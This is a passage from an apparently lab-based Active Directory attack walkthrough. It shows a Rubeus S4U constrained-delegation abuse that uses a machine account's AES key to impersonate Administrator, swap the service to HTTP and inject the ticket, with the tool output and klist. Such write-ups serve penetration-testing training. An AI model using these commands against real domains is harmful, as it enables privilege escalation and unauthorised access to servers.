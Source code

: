 - **Forge an S4U TGS using the Delegator Server AES Encryption Key Hash for the CIFS Service Delegation and Leverage it to Request and Obtain a TGS for the HTTP Service**

![studvm | studentuser #>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:studvm$ /aes256:7f2a3239887475600fcc8595732fa9fd9756a3042254baba6c7600560a1c5eb6 /impersonateuser:Administrator /msdsspn:CIFS/mgmtsrv.tech.finance.corp /altservice:http /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: 7f2a3239887475600fcc8595732fa9fd9756a3042254baba6c7600560a1c5eb6
[*] Building AS-REQ (w/ preauth) for: 'tech.finance.corp\studvm$'
[*] Using domain controller: 172.16.4.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'studvm$@TECH.FINANCE.CORP'
[*] Using domain controller: tech-dc.tech.finance.corp (172.16.4.1)
[*] Sending S4U2self request to 172.16.4.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator'🎭 to 'studvm$🖥️@TECH.FINANCE.CORP'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'Administrator'🎭 to target SPN 'CIFS📌/mgmtsrv🖥️.tech.finance.corp'
[*]   Final ticket will be for the alternate service 'ldap'
[*] Building S4U2proxy request for service: 'CIFS/mgmtsrv.tech.finance.corp'
[*] Using domain controller: tech-dc.tech.finance.corp (172.16.4.1)
[*] Sending S4U2proxy request to domain controller 172.16.4.1:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'http'📌
[*] base64(ticket.kirbi) for SPN 'http📌/mgmtsrv🖥️.tech.finance.corp':

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Cached Tickets: (1)

#0>     Client: Administrator🎭 @ TECH.FINANCE.CORP🏛️
        Server: http📌/mgmtsrv🖥️.tech.finance.corp @ TECH.FINANCE.CORP
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 3/11/2025 9:10:04 (local)
        End Time:   3/11/2025 19:10:04 (local)
        Renew Time: 3/18/2025 9:10:04 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
